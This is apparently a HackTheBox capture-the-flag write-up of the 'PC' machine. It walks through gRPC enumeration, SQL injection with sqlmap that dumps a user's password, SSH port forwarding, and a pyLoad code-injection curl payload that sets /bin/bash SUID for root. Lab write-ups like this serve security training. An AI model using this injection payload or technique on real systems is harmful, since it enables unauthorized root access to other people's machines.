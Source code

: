 ```yaml
---
title: "PC HackTheBox"
layout: post
date: 2023-08-10 16:00
tag: 
- HackTheBox
- Pentesting
- PC
- Linux
- Easy
- gRPC
image: https://www.hackthebox.com/storage/avatars/6d08e5f1919c77c0497213377f635e08.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
---
```


# Summary

An easy HackTheBox machine.

---

# Nmap

```bash
nmap -A -T4 10.10.11.214 -Pn -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-09 20:04 +01
Stats: 0:03:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.93% done; ETC: 20:10 (0:02:46 remaining)
Nmap scan report for 10.10.11.214
Host is up (0.098s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.91%I=7%D=8/9%Time=64D3E4AA%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06
SF:\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GenericL
SF:ines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetReq
SF:uest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPOp
SF:tions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSPR
SF:equest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPCC
SF:heck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVer
SF:sionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\
SF:?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0
SF:\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I checked what's in the port 50051 I found :

![!\[\[Pasted image 20230809201409.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809201409.png>)

First I didn't know what's that about, but after some googling I found it's about gRPC :

>gRPC is a modern open-source high performance Remote Procedure Call (RPC) framework. It can efficiently connect services in and across data centers with pluggable support for load balancing, tracing, health checking and authentication.

[https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9)

Following the above POC. We will first try to list out the blogs available to us in the target scope :

```bash
grpcurl -plaintext 10.10.11.214:50051 list
```

![!\[\[Pasted image 20230809202020.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202020.png>)

Now we are able to see that the SimpleApp service is up and running, we will now check about the list of services running on gRPC server :

```bash
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
```

![!\[\[Pasted image 20230809202240.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202240.png>)

Now we will create a user using the GRPC UI tool :

```bash
./grpcui -plaintext 10.10.11.214:50051
```

![!\[\[Pasted image 20230809202812.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202812.png>)

This command will initiate a UI portal on which we can provide our data to login or register a user :

![!\[\[Pasted image 20230809202905.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202905.png>)

After playing around with the UI interface, I realized that I can request the data using the credentials "admin:admin".

![!\[\[Pasted image 20230809203400.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809203400.png>)

![!\[\[Pasted image 20230809212926.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809212926.png>)

The blog above gave me a hint about possible SQLi in gRPC :

![!\[\[Pasted image 20230810002455.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810002455.png>)

Then I checked getInfo, which requires the token of the user to work :

![!\[\[Pasted image 20230810001553.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810001553.png>)

I sent the request to Repeater and then save it as req.txt to automatically test against SQLi :

```bash
sqlmap -r req.txt --dump
```

I found the credentials of the user **sau** :
**sau : HereIsYourPassWord1431**

![!\[\[Pasted image 20230810002005.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810002005.png>)

# User flag

I'm in ! Now I can get the user flag :

![!\[\[Pasted image 20230810001948.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810001948.png>)

# PE

I checked running services and I found a suspicious port, I decided to do SSH port forwarding to see what's behind this port :

![!\[\[Pasted image 20230810102352.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102352.png>)

```bash
ssh -L 127.0.0.1:8000:127.0.0.1:8000 sau@10.10.11.214
```
![!\[\[Pasted image 20230810102306.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102306.png>)

Found a pyLoad page, I checked if there a POC for that and I found it :

![!\[\[Pasted image 20230810102251.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102251.png>)

[https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65)

I changed the payload to add the SUID permission to /bin/bash :

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

![!\[\[Pasted image 20230810104618.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810104618.png>)

Boom I'm root !

![!\[\[Pasted image 20230810104551.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810104551.png>)

# Root flag

bash-5.0# cat /root/root.txt 
80c997563bf9af451544f2e71984d3c6

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>